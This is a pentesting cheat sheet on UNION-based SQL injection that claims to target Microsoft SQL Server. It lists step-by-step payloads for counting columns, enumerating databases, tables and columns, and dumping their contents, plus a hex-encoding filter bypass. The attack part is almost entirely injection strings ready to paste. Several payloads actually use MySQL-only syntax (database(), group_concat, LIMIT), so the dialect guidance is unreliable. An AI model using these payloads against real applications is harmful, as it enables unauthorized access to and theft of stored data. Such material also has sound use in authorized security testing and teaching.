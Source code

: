 # MSSQL Injection

## UNION Based

### Step 1. Number of columns

```bash
# First method:
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
' etc.
# Second method:
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL-- -
# etc.
```

### Step 2. List columns on the web

```bash
' UNION SELECT 'a',NULL,NULL,NULL-- -
' UNION SELECT NULL,'a',NULL,NULL-- -
' UNION SELECT NULL,NULL,'a',NULL-- -
' UNION SELECT NULL,NULL,NULL,'a'-- -
```

### Step 3. DB version and show databases

{% hint style="danger" %}
Remember to use a column where the result is displayed.
{% endhint %}

```sql
# DB version:
' UNION SELECT @@version, NULL-- - # For MySQL and Microsoft.
'# DBs:
## View the name of the current database.
' UNION SELECT database(), NULL-- -
'## Names of all databases:
' union select schema_name, NULL from information_schema.schemata-- -
' union select (select group_concat(SCHEMA_NAME SEPARATOR '\n') FROM information_schema.schemata),2,3-- -
## We are changing the limit: limit 0,1 - limit 1,1 - limit 2,1:
' union select schema_name, NULL from information_schema.schemata limit 0,1-- -
```

### Step 4. Tables and columns

```sql
# Tables:
## View all tables in all databases:
' UNION SELECT table_name,NULL,NULL,NULL,NULL FROM information_schema.tables-- -
'
## To see all the tables of all the databases (indicates me to which DB belongs that table):
' UNION select table_name,table_schema, NULL,NULL,NULL from INFORMATION_SCHEMA.TABLES-- -
' UNION SELECT table_name,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema='<NAME DB>'-- -
' UNION SELECT table_name,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema="<NAME DB>" limit 0,1-- - # Vamos cambiando el limit: limit 0,1 - limit 1,1 - limit 2,1
'
## Bypass in hexadecimal:
echo -n "School" | xxd -ps
... where table_schema=0x5363686f6f6c-- -

# Columns:
' UNION SELECT column_name, NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name="<TABLE NAME>" limit 0,1-- -
' UNION SELECT column_name, NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_schema="<DATABASE NAME>" and table_name="<TABLE NAME>" limit 0,1-- -
```

### Step 5. Dump info

```sql
' UNION SELECT <COLUMN NAME>,NULL,NULL,NULL,NULL FROM <TABLE NAME>-- -
' UNION SELECT <COLUMN NAME>+':'+<COLUMN NAME>,NULL,NULL,NULL,NULL FROM <TABLE NAME>-- -
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MSSQL Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)

